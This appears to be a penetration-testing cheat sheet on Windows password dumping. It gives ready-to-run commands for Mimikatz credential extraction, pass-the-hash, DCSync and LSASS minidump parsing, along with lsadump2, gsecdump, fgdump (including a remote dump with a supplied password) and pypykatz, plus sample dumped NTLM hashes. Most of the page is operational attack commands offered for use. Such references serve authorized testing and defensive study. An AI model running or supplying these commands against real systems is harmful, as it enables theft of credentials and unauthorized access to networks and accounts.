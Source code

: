```yaml
---
description: >-
  process of obtaining account login and password information, normally in the
  form of a hash or a clear text password.
---
```


# Password Dumping

## Mimikatz

Mimikatz is a leading post-exploitation tool that dumps passwords from memory, as well as hashes, PINs and Kerberos tickets.

Link: [https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)

### **Quick usage**

Ask for debug privilege for mimikatz process. \(have to be done first\) 

`privilege::debug` 

**Clear screen** 

`Cls` 

**Exit mimikatz**

`Exit` 

### **Examples**

**Dump credentials:** 

```text
privilege::debug  
sekurlsa::logonpasswords
```

  **Pass-The-Hash** 

`mimikatz # sekurlsa::pth /user:Administrateur /domain:chocolate.local /ntlm:cc36cf7a8514893efccd332446158b1a` 

**Minidump** 

`mimikatz # sekurlsa::minidump lsass.dmp` 

**DCSync** 

`lsadump::dcsync /domain:pentestlab.local /user:test` 

## lsadump

This is an application to dump the contents of the LSA secrets on a machine, provided you are an Administrator. It uses the same technique as pwdump2 to bypass restrictions that Microsoft added to LsaRetrievePrivateData\(\), which cause the original lsadump to fail. 

Lsadump2 requires Administrator access to run. The usage for lsadump2 is shown here: 

`C:\>lsadump2.exe Lsadump2` - dump an LSA secret. Usage: lsadump2.exe &lt;pid of lsass.exe&gt; &lt;secret&gt; 

You will have to determine the PID of the lsass \(just as with pwdump2\): 

`C:\>tlist | find /i "lsass" 244 LSASS.EXE` 

## gsecdump

gsecdump is a publicly-available credential dumper used to obtain password hashes and LSA secrets from Windows operating systems.

Link: [https://download.openwall.net/pub/projects/john/contrib/win32/pwdump/gsecdump-0.7-win32.zip](https://download.openwall.net/pub/projects/john/contrib/win32/pwdump/gsecdump-0.7-win32.zip)

### example

`C:\Documents and Settings\nobody\Desktop>gsecdump -u gsecdump -u MSHOME\XPSP1VM$::aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::`

## FGDump

Cachedump aka In-memory attacks for SAM hashes / Cached Domain Credentials.

Example locally:

```text
C:\Documents and Settings\malware\Bureau\fgdump-2.1.0-exeonly>fgdump.exe 
fgDump 2.1.0 - fizzgig and the mighty group at foofus.net 
Written to make j0m0kun's life just a bit easier 
Copyright(C) 2008 fizzgig and foofus.net 
fgdump comes with ABSOLUTELY NO WARRANTY! 
This is free software, and you are welcome to redistribute it 
under certain conditions; see the COPYING and README files for 
more information. 
--- Session ID: 2014-01-20-19-10-02 --- 
Starting dump on 127.0.0.1 
** Beginning local dump ** 
OS (127.0.0.1): Microsoft Windows XP Professional Service Pack 3 (Build 2600) 
Passwords dumped successfully 
Cache dumped successfully 
-----Summary----- 
Failed servers: 
NONE 
Successful servers: 
127.0.0.1 
Total failed: 0 
Total successful: 1 
```

fgdump has successfully dumped the password hashes: 

```text
C:\Documents and Settings\malware\Bureau\fgdump-2.1.0-exeonly>more 127.0.0.1.pwdump 
Administrateur:500:B0347EB22B87E3F1AAD3B435B51404EE:711EFD7CDC285C11DDFAE2B3D9861DB1::: 
HelpAssistant:1000:6C34BBCD28DD6A8A56088AD6CEFC1BFB:D474527929F6B428B7EA2F7C8B79CE5A::: 
InvitÚ:501:NO PASSWORD*********************:NO PASSWORD*********************::: 
malware:1003:NO PASSWORD*********************:NO PASSWORD*********************::: 
SUPPORT_388945a0:1002:NO PASSWORD*********************:AAB42B496473C917825C842BEACF0B75:::
```

  Dumping the Local Machine Using a Different Account 

`fgdump.exe -h 127.0.0.1 -u AnAdministrativeUser`  

 Dumping a Remote Machine \(192.168.0.10\) Using a Specified User \(1\) 

 `fgdump.exe -h 192.168.0.10 -u AnAdministrativeUser -p l4mep4ssw0rd`  

##  pypykatz

Mimikatz implementation in pure Python.

**parsing lsass dump:**

```text
pypykatz lsa minidump lsass.DMP
```

